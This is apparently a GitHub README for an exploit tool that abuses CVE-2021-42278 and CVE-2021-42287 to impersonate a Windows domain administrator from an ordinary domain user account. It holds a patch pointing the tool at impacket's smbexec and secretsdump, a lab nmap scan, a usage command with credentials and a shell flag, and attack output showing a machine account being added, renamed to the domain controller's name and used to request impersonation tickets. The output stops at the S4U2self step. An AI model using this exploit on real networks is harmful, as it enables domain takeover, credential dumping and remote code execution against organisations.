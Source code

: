 # Exploiting CVE-2021-42278 and CVE-2021-42287 to impersonate DA from standard domain user



## For MacOS User

python3 `pip install -r requirements.txt`

error:

```bash
sh: /usr/bin/impacket-smbexec: No such file or directory
```

change `sam_the_admin.py`:
```python
    # will do something else later on 
    fbinary = "/usr/local/bin/smbexec.py"
    # "/usr/bin/impacket-smbexec"
    if options.dump:
        fbinary = "/usr/local/bin/secretsdump.py"
        # "/usr/bin/impacket-secretsdump"
```

## OS TEST
![image](https://user-images.githubusercontent.com/16593068/146142564-5d573b4e-549e-4ae0-9bfd-72d5fce67108.png)

```bash

Nmap scan report for 172.16.242.135
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-12-15 07:45:26Z)
135/tcp   open  msrpc        Microsoft Windows RPC
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: jas502n.com, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2012 R2 Datacenter 9600 microsoft-ds (workgroup: JAS502N)
```

usage:

`python3 sam_the_admin.py "jas502n/John:Admin@123" -dc-ip 172.16.242.135 -shell`

![image](https://user-images.githubusercontent.com/16593068/146140741-c00f1618-92c8-4d1f-be0c-781e4f660aed.png)

```bash
$ python3 sam_the_admin.py "jas502n/hr:Admin@12" -dc-ip 172.16.242.135 -shell


Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Selected Target dc01.jas502n.com
[*] Total Domain Admins 1
[*] will try to impersonat Administrator
[*] Current ms-DS-MachineAccountQuota = 10
[*] Adding Computer Account "SAMTHEADMIN-59$"
[*] MachineAccount "SAMTHEADMIN-59$" password = @L!LeScGKcBA
[*] Successfully added machine account SAMTHEADMIN-59$ with password @L!LeScGKcBA.
[*] SAMTHEADMIN-59$ object = CN=SAMTHEADMIN-59,CN=Computers,DC=jas502n,DC=com
[*] SAMTHEADMIN-59$ sAMAccountName == dc01
[*] Saving ticket in dc01.ccache
[*] Resting the machine account to SAMTHEADMIN-59$
[*] Restored SAMTHEADMIN-59$ sAMAccountName to original value
[*] Using TGT from cache
[*] Impersonating Administrator
[*] 	Requesting S4U2self
```